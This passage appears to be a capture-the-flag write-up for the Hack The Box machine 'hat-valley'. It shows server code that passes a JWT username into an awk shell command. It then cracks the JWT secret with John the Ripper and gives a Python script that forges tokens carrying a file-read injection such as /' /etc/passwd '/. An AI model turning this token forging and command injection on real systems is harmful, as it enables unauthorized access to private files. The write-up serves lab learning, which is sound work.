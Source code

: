 User is decoded in the JWT Token, so we can insert something like `/' /etc/passwd '/` to perform LFI.
```js
exec("awk '/" + user + "/' /var/www/private/leave_requests.csv")
```

To forge a JWT token we need to discover the secret key.
```
jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc4OTc4NDM5fQ.KcQnN6wQtj2csiY-Rvj8sU8MnkZ6CLR1U3nl2o_NOR8 > jwt.john

john jwt.john -wordlist:/usr/share/wordlists/rockyou.txt
```

Got the secret key: 123beany123.

Create a python script to generate the JWT.
```python
import requests
import jwt
import sys

secret = '123beany123'
username = f"/' {sys.argv[1]} '/"
jwt_token = jwt.encode({'username': username, "iat": 1678978439}, secret, algorithm='HS256')
cookie = {'token': jwt_token}

r = requests.get('http://hat-valley.htb/api/all-leave', cookies=cookie, proxies=proxies)

print(r.content)
```

We find a backup file inside `/home/bean/.bashrc`.
```
alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'

# Reading bacup_home.sh
#!/bin/bash
mkdir /home/bean/Documents/backup_tmp
cd /home/bean
tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
date > /home/bean/Documents/backup_tmp/time.txt
cd /home/bean/Documents/backup_tmp
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
rm -r /home/bean/Documents/backup_tmp
```

Extract the tar file.
```
# Change the script to save the content to a file instead of print it
python3 exploit.py bean_backup_final.tar.gz

tar -xjvf bean_backup_final.tar.gz .

tar -xjvf bean_backup.tar.gz .
```
